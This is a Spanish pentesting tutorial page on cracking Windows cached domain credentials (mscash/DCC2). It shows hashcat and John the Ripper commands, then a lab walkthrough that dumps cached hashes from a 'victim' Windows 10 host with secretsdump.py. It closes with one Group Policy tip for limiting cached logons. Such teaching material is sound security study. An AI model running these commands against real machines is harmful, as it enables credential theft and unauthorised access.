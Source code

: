 
#### Crackeo del hash mscash

Este tipo de hash se puede crackear con `john` o `hashcat`.

##### 🪓 Con Hashcat

Guarda el hash en un archivo `mscash.txt`:

```
$DCC2$10240#gustavo#8f4e2fd68c1184f748df7e1a3f1de88f
```

Comando:

```bash
hashcat -m 2100 mscash.txt rockyou.txt
```

##### 🪓 Con John the Ripper

Primero convierte con `john` si es necesario:

```bash
john --format=mscash2 mscash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

---

### 💡 Ejemplo práctico paso a paso

1. Tienes una máquina Kali y un Windows 10 víctima (IP: 192.168.1.100).
2. Sabes que hay un usuario de dominio que inició sesión en esa PC: `gustavo`.
3. Tienes credenciales válidas (admin):

```bash
secretsdump.py gustavo:MiContraseña123@192.168.1.100
```

Salida parcial:

```
[*] Dumping cached domain logon information
DOMINIO\gustavo:$DCC2$10240#gustavo#fcfbc889543b7c65f25989f33a1c6d23
```

4. Guardas el hash en `mscash.txt` y crackeas:

```bash
hashcat -m 2100 mscash.txt rockyou.txt
```

5. Recuperas la contraseña en claro si está en el diccionario.

---

### 🔐 ¿Cómo protegerse?

- Limita la cantidad de credenciales cacheadas:
  👉 Política de grupo:
  `Computer Configuration > Windows Settings > Security Settings > Local Policies > Security Options > Interactive logon: Number of previous logons to cache`
